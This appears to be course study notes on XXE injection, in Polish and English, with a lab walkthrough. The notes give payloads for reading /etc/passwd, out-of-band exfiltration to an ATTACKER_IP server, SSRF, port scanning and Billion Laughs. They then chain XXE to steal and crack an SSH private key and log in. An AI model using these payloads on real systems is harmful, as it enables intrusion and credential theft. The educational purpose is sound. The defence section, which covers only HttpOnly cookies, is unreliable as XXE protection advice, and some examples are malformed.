







# XXE (XML External Entity) injection
XXE (XML External Entity) to podatność związana z przetwarzaniem zewnętrznych encji w dokumentach XML. Atakujący może wykorzystać tę lukę,
aby wstrzyknąć złośliwy kod do żądania XML, co może prowadzić do ujawnienia poufnych danych, takich jak pliki z serwera, lub umożliwić wysyłanie nieautoryzowanych zapytań do wewnętrznych zasobów sieciowych.  
XXE może również zostać wykorzystane do przeprowadzania ataków typu Denial of Service (DoS) poprzez zainicjowanie zasobożernych operacji na serwerze. Aby
zabezpieczyć aplikacje przed tego typu atakami, zaleca się wyłączenie przetwarzania zewnętrznych encji w parserach XML oraz stosowanie
odpowiednich środków kontroli dostępu do danych. Podatność XXE jest szczególnie groźna w aplikacjach, które przyjmują dane od użytkowników
i przetwarzają je bez odpowiedniej walidacji.
___
## What is XML
XML (Extensible Markup Language) is a flexible, human-readable, and machine-parseable format for storing and exchanging data. Derived from SGML, it is widely used to structure data through elements, attributes, and character data, facilitating communication between systems and applications.
XML is widely used in web applications for data exchange (e.g., SOAP, REST APIs), configuration files, and storage.

### XML Syntax and Structure
Typowy dokument XML zawiera w pierwszej linii deklarację XML. Następnie zaczyna się właściwa treść dokumentu budowana na tagach.
XML uses tags to define elements, typically in pairs (opening and closing tags). 
Example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<user id="1">
   <name>John</name>
   <age>30</age>
   <address>
      <street>123 Main St</street>
      <city>Anytown</city>
   </address>
</user>
```
The syntax includes attributes within the opening tag to provide additional information. For example, the tag <user id="1"> has an attribute id="1". Character data is the content inside the tags, like "John" in <name>John</name>. The <?xml version="1.0" encoding="UTF-8"?> declaration specifies the XML version and encoding. An example XML document may include nested elements, attributes, and character data, all structured to represent information.

### What is XSLT  (Extensible Stylesheet Language Transformations)?
XSLT (eXtensible Stylesheet Language Transformations) is a language for transforming XML documents into other formats, such as:

Another XML document
HTML for display in web browsers
Plain text
JSON, or other formats
It is part of the XSL (Extensible Stylesheet Language) family and operates using rules defined in an XSLT stylesheet.

XSLT can be exploited for:
- Data Extraction: Extract sensitive data.
- Entity Expansion: Inject malicious entities.
- Data Manipulation: Alter XML data.
- Blind XXE: Perform attacks without visible server responses.

### Walidacja XML-a
Autor pliku XML-a może zdefiniować nazwy znaczników używane w dokumencie, każda aplikacja odczytująca dane musi wiedzieć, jakich 
znaczników się spodziewać i w jakiej kolejność się pojawią.
Oczekiwana struktura dokumentu XML-a jest opisywana przez formalną gramatykę, względem której można zwalidować dokument.
Plik gramatyki instruuje program parsujący, które sekwencje znaków są ważnymi wyrażeniami w języku.  
Oczekiwaną strukturę dokumentu XML-a można opisać na dwa główne sposoby:
1. Pliki DTD (document type definition) przypomina notację Bachusa-Naura, zwykle wykorzystywaną do opisu gramatyk języków programistycznych.
Pliki DTD mają kilka cech, które mogą narazić parser na atak.
2. XSD (XML Schema definition) za pomocą których można zdefiniować szerszy zakres dokumnetów w formacie XML; w tym przypadku opis gramatyki znajduje się w 
samym pliku XML.

### What are DTDs (Document Type Definitions)?
Document Type Definitions (DTDs) define the structure, allowed elements, attributes, and relationships in an XML document. They can be internal (within the XML) or external (in a separate file).

Key purposes and usage:  
Validation: Ensures XML structure adheres to specified criteria, vital for data integrity.  
Entity Declaration: Defines reusable entities, including external entities (important in contexts like XXE attacks).  
Example: An internal DTD for a configuration file specifies element relationships using <!ELEMENT> declarations, ensuring the structure follows predefined rules.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE config [
  <!ELEMENT catalog (book+)>
  <!ELEMENT book (author,title,genere,description)>
  <!ELEMENT author (#PCDATA)>
  <!ELEMENT title (#PCDATA)>
  <!ELEMENT genere (#PCDATA)>
  <!ELEMENT description (#PCDATA)>      
  <!ATTLIST book id CDATA>      
]>
<config>
  <!-- configuration data -->
</config>
```
Zgodnie z tym plikiem DTD główny znacznik <catalog> powinien zawierać zero lub więcej znaczników <book> (symbol +),
a każdy znacznik <book> powinien zwierać znaczniki author, tile, genere i description oraz atrybut id.
Znaczniki i atrybuty powinny zawierać dane w postaci znaków sparsowanych (#PCDATA) lub dane znakow (CDATA) - czyli tekst, a nie znaczniki.

Definicje DTD można umieścić w dokumentcie XML-a aby tworzyć samodzielnie weryfikujący się dokument.
Jednak parser obsługujący takie wewnętrzne definicje DTD jest podatny na ataki, ponieważ atakujący przsyłający taki dokument XML
ma kontrolę nad zawartością DTD i nie musi się kierować wymaganiami parsera.

Wewnętrzne definicje DTD mogą być wykorzystane do ataku `bomba XML-a` albo `XML external entity` aby uzyskać dostęp do innych plików na serwerze.
DTDs (Document Type Definitions) are key in XXE (XML External Entity) attacks, as they allow the declaration of external entities that can reference files or URLs, potentially leading to malicious data injection.

### XML Entities
Dokumenty XML dopuszczają użycie encji, w celu kodowania niektórych znaków.  
W tym przypadku,encja &quot; zostanie zamieniona na znak "

```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <foo>
 <example>&quot;test&quot;</example>
 </foo>
```

Entities are placeholders for data/code in XML. There are five types:

`Internal Entities`: Variables defined in the DTD for repeated content.
Example:
```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```
`External Entities`: Reference external files/URLs, which can be exploited in XXE attacks.
Zewnętrzne encje XML są rodzajem niestandardowych encji, których wartości są ładowane spoza DTD* w których zostały zadeklarowane
Example:
```xml
<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>
```
`Parameter Entities`: Used in DTDs for modularization or reusable structures.
Example:
```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```
`General Entities`: Substitutes content in the XML document body.
Example:
```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```
`Character Entities`: Represent special/reserved characters (e.g., <, &) to avoid parser errors.
Example:
```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```

More bout [Reading Entity Declarations and Entity References into the DOM](https://learn.microsoft.com/en-us/dotnet/standard/data/xml/reading-entity-declarations-and-entity-references-into-the-dom)

### XML Parsing
XML parsing involves reading an XML file and converting its data into a usable structure (e.g., a DOM tree). 
Parsers may also validate the XML against a schema or DTD. If configured to process external entities, they can pose 
security risks like unauthorized access to files or systems.

Common XML Parsers:  
`DOM Parser`: Builds the entire XML into a memory-based tree, allowing flexible random access but is resource-intensive.  
`SAX Parser`: Parses XML sequentially without loading it into memory, ideal for large files but less flexible for random access.  
`StAX Parser`: Similar to SAX but offers greater control to the programmer during the parsing process.  
`XPath Parser`: Parses XML using expressions, often used with XSLT for transformations.
___
## Szukanie podatności XXE
Wtrakcie poszukiwań podatności XXE, często dokumenty XML mogą zawierać dużą ilość parametrów, spośród których każdy może zostać wykorzystany przez 
aplikację. Warto z tego względu testować je wszystkie.  
Same dokumenty XML mogą pojawić się w ramach zwykłego zapytania do aplikacji, czy upload’u pliku.

Czasami aplikacja potrafi obsługiwać treść XML, pomimo korzystania z innych formatów.  
Atakujący mogą zmienić nagłówek Content-Type na text/xml lub application/xml, aby oszukać aplikację i wymusić przetwarzanie danych jako XML.

```xml
POST /action HTTP/1.0
 Content-Type: application/json
 Content-Length: 7
 {"foo":"bar"}

 POST /action HTTP/1.0
 Content-Type: text/xml
 Content-Length: 7

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <foo>bar</foo
```
___
## Ataki XXE (XML External Entity) injection
Gdy parser XML-a zwróci błąd, komunikat o błędzie zwykle zawiera treść parsowanego dokumentu XML-a.
Dzięki temu hakerzy mogą wykorzystywać zewnętrzne deklaracje encji do odczytu plików na serwerze.  
Złośliwy plik XML może zawierać odwołania do np `file:///etc/passwd`.  
Gdy taki zewnętrzny plik zostanie umieszczony w dokumencie XML-a przez parser, format XML okaże się błędny, a zatem
parsowanie się nie powiedzie.  
Parser następnie umieści zawartość pliku w komunikacie błędu.

### XXE In-Band
In-band XXE occurs when the attacker can directly view the server's response to a malicious XML payload, enabling 
easy data exfiltration and exploitation. The server processes the payload and returns the extracted data or attack result.

Examples fo reading file content:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
 <foo>
    <example>&xxe;</example>
 </foo>
```
```xml
<?xml version="1.0 standalone="no""?>
<!DOCTYPE copyright [
    <!ELEMENT copyright (#PCDATA)>
    <!ENTITY> copy PUBLIC "http://www.w3.org/xmlspec/copyright.xml">
]>
<copyright&copy; </copyright>
```
Zgodnie ze specyfikacją XML-a w ostatnim przykładzie parser powinien odczytać zawartość pliku z zewnętrzną encją i wstawić
uzyskane dane do dokumentu XML w miejscach odpowie dających tej encji.
Dane hostowane pod adresem http://www.w3.org/xmlspec/copyright.xml powinno się wstawić w dokumencie XML wszędzie tam , gdzie znajduję sie tekst &copy

### Out-of-Band XXE
Out-of-band XXE exploits occur when the attacker cannot see the server's response directly. 
Instead, they use alternative channels like DNS or HTTP requests to exfiltrate data by crafting malicious XML payloads 
that trigger these external requests.

In this case yop have to capture the exfiltrated data using an attacker-controlled server.
Example:

Start a server: `python3 -m http.server 1337`  

Capture the conversation with burp suite:  



Modify the payload:  
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```
Replace the value of the XML file in the request and resend it. 
Note that you have to replace the ATTACKER_IP variable with your own IP.
 


After sending the modified HTTP request, the Python web server will receive a connection from the target machine. 
The establishment of a connection with the server indicates that sensitive information can be extracted from the application.

```
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.35.31 - - [03/Jan/2025 12:02:47] "GET / HTTP/1.0" 200 -
```
Create a file `sample.dtd` with payload:
```dtd
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```
This payload below will exfiltrate the contents of /etc/passwd and send the response back to the attacker-controlled server:

Change the payload in the burp suite repeater to:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```



In the terminal now you will receive two request:
The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.

### Server-Side Request Forgery (SSRF)
SSRF (Server-Side Request Forgery) to podatność, która pozwala atakującemu na manipulowanie serwerem, aby ten wykonywał żądania
HTTP do zasobów, do których zwykle nie miałby dostępu. W wyniku takiego ataku serwer może uzyskać dostęp do wewnętrznych systemów sieciowych,
baz danych czy innych usług, które są chronione przed bezpośrednim dostępem z zewnątrz. Atakujący może wykorzystać SSRF do odczytu
poufnych informacji, takich jak dane konfiguracyjne, lub do przeprowadzenia ataków na inne systemy w infrastrukturze. Aby zapobiec tego typu atakom,
ważne jest, aby ograniczyć możliwości serwera do wykonywania zewnętrznych żądań oraz weryfikować i filtrować dane wejściowe,
szczególnie te, które są używane do tworzenia zapytań HTTP. SSRF stanowi poważne zagrożenie, zwłaszcza w środowiskach, gdzie serwery mają szeroki
dostęp do zasobów wewnętrznych.

Przykłady:
```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://internal-api.local/secret-endpoint">
]>
<foo>&xxe;</foo>
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable.com/"> ]>
 <foo>
    <example>&xxe;</example>
 </foo
```

### Internal Network Scanning
An attacker can exploit an XXE vulnerability to make a server send requests to internal resources, such as an internal web application on a non-standard port. This can be done by capturing the request and using tools like Burp Intruder to inject a malicious payload targeting the internal network.
Example:
Captured post request:



Modify with payload:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```
The external entity is set to fetch data from http://localhost:§10§/. Intruder will then reiterate the request and 
search for an internal service running on the server.

Set the attack in Intruder tab:



The `&xxe;` entity in the <name> tag triggers the server to make an HTTP request to the specified URL during XML parsing.
The server includes the response in its output, potentially exposing sensitive information like secret keys or passwords, 
which can be used for further attacks, such as password reuse.

### XML Entity Expansion
XML Entity Expansion, often exploited in XXE attacks, involves defining entities that the XML parser expands. 
Attackers can abuse this to cause Denial of Service (DoS) through recursive or oversized entities or reference 
sensitive files/services via external entities. It facilitates both in-band and out-of-band XXE attacks.

Example:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact><name>&xxe; &xxe;
</name><email>test@test.com</email><message>test</message></contact>
```
In the payload above, `&xxe`; is expanded wherever it appears. Attackers can use entity expansion to perform a 
Billion Laughs attack, where a small XML document recursively expands to consume server resources, 
leading to a denial of service.



Example:

```xml
<!DOCTYPE bomb [
    <!ENTITY a "AAAAAAAAAA">
    <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
    <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<bomb>&c;</bomb>

```

In this example:
&a; expands to "AAAAAAAAAA."
&b; expands to 10 copies of &a;.
&c; expands to 10 copies of &b;, creating exponential growth.

### XML bomb
Bomba XML-a używa wewnętrznej definicji DTD do wywoływania eksplozji zużycia pamięci przez parser XML.
To prowadzi do wyczerpania dostępnej pamięci, a następnie do awarii serwera, który w efekcie nie będzie dostępny online.
Bomby XML wykorzystują cechę dokumentów DTD polegającą na określeniu prostych makr zastępowania łańcuchów tekstowych, 
które są rozwijane podczas parsowania - wewnętrzne deklaracje encji. Jeśli fragment tekstu jest często wykorzystywany w pliku XML-a, można go zdeklarować
w DTD w postaci encji wewnętrznej. Dzięki temu nie trzeba go przepisywać za każdym razem, wysarczy wpisać nazwę encji.

Przykład:
```xml
<?xml version="1.0"?>
<!DOCTYPE employees [
    <!ELEMENT employees (employee)*>
    <!ELEMENT employee (#PCDATA)>
    <!ENTITY company "Rock and Gravel Company">
}>
<employees>
 <employee>
  Fred Flinstone, &company;
  </employee>
 <employee>
  Barney Rubble, &company;
 </employee>
<employees>
```
Problem pojawia się, kiedy wewnętrzne deklaracje encji odwołują się do innych wewnętrznych deklaracji encji, zagnieżdzenie to może spowodować bombe XML:

Przykład ataku `miliarda wybuchów śmiechu`

```xml
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```
In this Billion Laughs attack:  
- &lol; expands to "lol."  
- &lol1; expands to 10 copies of &lol; (10 "lol"s).  
- &lol2; expands to 10 copies of &lol1; (100 "lol"s).  
- &lol3; expands to 10 copies of &lol2; (1,000 "lol"s), and so on, until exponential growth crashes the parser.  
___
## Zabezpieczenie
### Atrybut HttpOnly
Dodanie atrybutu HttpOnly do ciasteczek (cookies) jest kluczowym zabezpieczeniem przed atakami XSS. Atrybut HttpOnly uniemożliwia dostęp
do ciasteczek za pomocą JavaScript, co sprawia, że atakujący nie może ich ukraść nawet w przypadku udanego ataku XSS. W kontekście ochrony przed
CSRF, ustawienie flagi HttpOnly na ciasteczkach zabezpiecza je przed kradzieżą, co utrudnia wykorzystanie ich do wykonania nieautoryzowanych
działań na koncie użytkownika. Dzięki temu, nawet jeśli w aplikacji wystąpi podatność XSS, atakujący nie będzie w stanie zdobyć ciasteczek sesyjnych
potrzebnych do przeprowadzenia ataku CSRF. W rezultacie, zadania CSRF stają się bardziej odporne na połączenie ataków XSS i CSRF.
___
## Ćwiczenia studia
### Podstawowy XXE
Celem zadania jest odczytanie pliku /flag13.1.txt za pomocą podatności XXE.  
Flagę należy wkleić w formularzu na platformie.  
URL: http://192.168.100.13/site1/  

Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/flag13.1.txt"> ]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>&xxe;</heading>
 <body>Don't forget me this weekend!</body>
 </note>
```
### SSRF
Celem zadania jest wykorzystanie podatności XXE do wysłania zapytania HTTP pod adres:  
http://192.168.100.13/solve13.2/ 
Za pomocąadresulokalnego 127.0.0.1

Payload:
````xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [ <!ENTITY ssrf SYSTEM "http://127.0.0.1/solve13.2/"> ]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>&ssrf;</heading>
 <body>Don't forget me this weekend!</body>
 </note>
````
Aplikacja powinna dać wiadomość Error.

### Blind XXE
Celem zadania jest odczytanie pliku /flag13.3.txt za pomocą podatności XXE i wysłanie jej na Kali. Zadanie nie odbija żadnych danych od parsera XML!  
URL:http://192.168.100.13/site3/  

NaKali należy zahostować plik xxe.dtd (python-m http.server 80)

Zawartość xx.dtd:
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag13.3.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://10.65.0.6/%file;'>">
 %eval;
 %exfil;
```

Wykorzystuje on zbudowany w php mechanizm php://filter, który zakoduje flagę z potencjalnymi specjalnymi znakami za pomocą base64.  

Payload:
```xml
?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [<!ENTITY % xxe SYSTEM "http://10.65.0.6/xxe.dtd"> %xxe;]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend!</body>
 </note>
```

Odczytanie informacji:



## Ćwiczenia studia Pentest
### Nazwa użytkownika
Celem zadania jest wykorzystanie podatności XXE w celu odczytania pliku /etc/passwd.  
Flagą do zadania jest nazwa użytkownika systemowego- nazwę użytkownika należy wysłać formularzem na platformie.  
URL:
http://192.168.100.63

Payload:
```xml
<!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
 <PLANT>
 <COMMON>&xxe;</COMMON>
 <BOTANICAL>Sanguinaria canadensis</BOTANICAL>
 <ZONE>4</ZONE>
 <LIGHT>Mostly Shady</LIGHT>
 <AVAILABILITY>031599</AVAILABILITY>
 </PLANT>
```
### Klucz prywatny
Celem zadania jest wykorzystanie podatności XXE w celu odczytania klucza prywatnego wcześniej zlokalizowanego użytkownika.
Domyślna ścieżka do klucza: /home/sshadmin/.ssh/id_rsa  

Payload:
```xml
 <!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/home/sshadmin/.ssh/id_rsa"> ]>
 <PLANT>
 <COMMON>&xxe;</COMMON>
 <BOTANICAL>Sanguinaria canadensis</BOTANICAL>
 <ZONE>4</ZONE>
 <LIGHT>Mostly Shady</LIGHT>
 <AVAILABILITY>031599</AVAILABILITY>
 </PLANT>
```
### Hasło do klucza
Celem zadania jest znalezienie prawidłowego hasła do klucza prywatnego
wsłowniku /usr/share/seclists/Passwords/Leaked-Databases/carders.cc.txt  
Flagą do zadania jest hasło do klucza- hasło należy wysłać formularzem
na platformie.  
Uwaga! Skopiowanie klucza bezpośrednio ze strony może nie zadziałać. Jeśli napotkasz na błąd, skopiuj je ze źródła strony.

```
ssh2john id_rsa > id_rsa.john
john--wordlist=/usr/share/seclists/Passwords/Leaked-Databases/carders.cc.txt id_rsa.john
```

### Połączenie SSH
 Celemzadaniajestpołączeniesięzhostem192.168.100.63

```
chmod 400 id_rsa
ssh-i id_rsa sshadmin@192.168.100.63
```

### Flaga
Celem zadania jest wylistowanie katalogu domowego i odczytanie flagi.
```
ls
cat *
```
___
## Dodatkowe informacje
[Symulacja ataku XXE](https://cdn.sekurak.pl/html5/xxe/)  
[XXE„Cheat-sheet”](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)  
[Poszukiwanie podatności XXE](https://portswigger.net/web-security/xxe#how-to-find-and-test-for-xxe-vulnerabilities)  
___
## Sources
- tryhackme, XXE Injection, https://tryhackme.com/r/room/xxeinjection.
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.
- XML External Entities, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- XML External Entities Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
